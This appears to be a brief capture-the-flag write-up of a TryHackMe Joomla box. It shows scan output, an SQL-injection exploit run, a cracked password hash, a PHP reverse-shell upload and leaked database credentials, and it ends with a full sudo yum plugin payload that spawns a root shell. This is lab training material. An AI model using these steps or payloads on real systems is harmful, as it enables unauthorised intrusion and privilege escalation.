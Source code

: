 Daily Bugle
----
nmap scan :
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3306/tcp open  mysql   MariaDB (unauthorized)
----
gobuster scan
/images               (Status: 301) [Size: 236] [--> http://10.10.131.171/images/]
/index.php            (Status: 200) [Size: 9280]                                  
/media                (Status: 301) [Size: 235] [--> http://10.10.131.171/media/] 
/templates            (Status: 301) [Size: 239] [--> http://10.10.131.171/templates/]
/modules              (Status: 301) [Size: 237] [--> http://10.10.131.171/modules/]  
/bin                  (Status: 301) [Size: 233] [--> http://10.10.131.171/bin/]      
/plugins              (Status: 301) [Size: 237] [--> http://10.10.131.171/plugins/]  
/includes             (Status: 301) [Size: 238] [--> http://10.10.131.171/includes/] 
/language             (Status: 301) [Size: 238] [--> http://10.10.131.171/language/] 
/components           (Status: 301) [Size: 240] [--> http://10.10.131.171/components/]
/cache                (Status: 301) [Size: 235] [--> http://10.10.131.171/cache/]     
/libraries            (Status: 301) [Size: 239] [--> http://10.10.131.171/libraries/] 
/tmp                  (Status: 301) [Size: 233] [--> http://10.10.131.171/tmp/]       
/layouts              (Status: 301) [Size: 237] [--> http://10.10.131.171/layout
/administrator






----
http://10.10.131.171/administrator/manifests/files/joomla.xml
looking at joomla dir we found that joomla version is 3.7.0
<version>3.7.0</version>
found a github that has exploit 
https://github.com/stefanlucas/Exploit-Joomla
after running the .py program we got some creds!
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

let's try to crack that hash!
creds: John:jonah:spiderman123
--
we are in joomla!
---
then we uploaded our .php reverse shell to a template and ran it and got reverse shell
----
in /var/www/html/configuration.php file we found creds?
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash

public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
        public $secret = 'UAMBRWzHO3oFPmVC';
---
creds ssh:jjames:nv5uz9r3ZEDzVjNu
---
privesc:
----
running sudo -l we get that user can run yum as root
checking gtfo
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
we are root :D 